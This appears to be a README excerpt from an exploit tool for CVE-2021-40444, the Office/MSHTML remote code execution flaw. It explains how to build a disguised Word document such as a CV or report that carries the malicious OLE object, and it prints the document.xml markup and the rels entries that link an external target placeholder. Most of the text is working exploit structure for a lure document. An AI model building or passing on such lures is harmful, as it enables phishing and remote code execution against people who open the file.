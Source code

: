 ### Using custom template

1. Generate a custom DOCX template

You need to create new office document and personalizing it by your own model (CV, Report, ...).

The easy way, copy and paste (keep formating) from `data/exploits/cve-2021-40444.docx`.

You can copy this anywhere in the document.

Save the document and unpack this.

Check that `word/documment.xml` contains something like:

```
<w:object w:dxaOrig="4320" w:dyaOrig="4320">
  <v:shapetype id="_x0000_t75" coordsize="21600,21600" o:spt="75" o:preferrelative="t" path="m@4@5l@4@11@9@11@9@5xe" filled="f" stroked="f">
    <v:stroke joinstyle="miter"/>
    <v:formulas>
      <v:f eqn="if lineDrawn pixelLineWidth 0"/>
      <v:f eqn="sum @0 1 0"/>
      <v:f eqn="sum 0 0 @1"/>
      <v:f eqn="prod @2 1 2"/>
      <v:f eqn="prod @3 21600 pixelWidth"/>
      <v:f eqn="prod @3 21600 pixelHeight"/>
      <v:f eqn="sum @0 0 1"/>
      <v:f eqn="prod @6 1 2"/>
      <v:f eqn="prod @7 21600 pixelWidth"/>
      <v:f eqn="sum @8 21600 0"/>
      <v:f eqn="prod @7 21600 pixelHeight"/>
      <v:f eqn="sum @10 21600 0"/>
    </v:formulas>
    <v:path o:extrusionok="f" gradientshapeok="t" o:connecttype="rect"/>
    <o:lock v:ext="edit" aspectratio="t"/>
  </v:shapetype>
  <v:shape id="_x0000_i1025" type="#_x0000_t75" style="width:3.75pt;height:3.75pt" o:ole="">
    <v:imagedata r:id="rId4" o:title="" cropbottom="64444f" cropright="64444f"/>
  </v:shape>
  <o:OLEObject Type="Link" ProgID="TARGET_HERE" ShapeID="_x0000_i1025" DrawAspect="Content" r:id="rId5" UpdateMode="OnCall">
    <o:LinkType>EnhancedMetaFile</o:LinkType>
    <o:LockedField>false</o:LockedField>
    <o:FieldCodes>\f 0</o:FieldCodes>
  </o:OLEObject>
</w:object>
```

Check that `word/_rels/document.xml.rels` have good relation to the above thing:

```
<Relationship Id="rId32" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject" Target="TARGET_HERE" TargetMode="External"/>
<Relationship Id="rId31" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/image" Target="NULL" TargetMode="External"/>
```
